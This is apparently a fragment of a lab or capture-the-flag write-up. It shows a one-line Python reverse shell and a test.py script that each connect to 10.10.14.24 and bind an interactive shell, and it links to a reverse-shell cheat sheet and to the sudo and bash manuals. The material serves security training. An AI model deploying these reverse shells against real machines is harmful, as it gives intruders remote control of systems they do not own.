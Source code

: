 =======================================================

one-line python2 reverse shell: 

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.24",17011));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

test.py:

    import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.24",17012))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/bash","-i"])

<p>&nbsp;</p>
=======================================================

## Links & Additional Reading

=======================================================

1. Pentestmonkey revserse shell cheatsheet: [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
2. Online sudo manual: [https://www.sudo.ws/man/1.8.14/sudo.man.html](https://www.sudo.ws/man/1.8.14/sudo.man.html)
3. Online bash manual: [https://www.gnu.org/software/bash/manual/bash.html](https://www.gnu.org/software/bash/manual/bash.html)

<p>&nbsp;</p>
=======================================================

![rax logo](/images/rax_intel.png)

<p>&nbsp;</p>

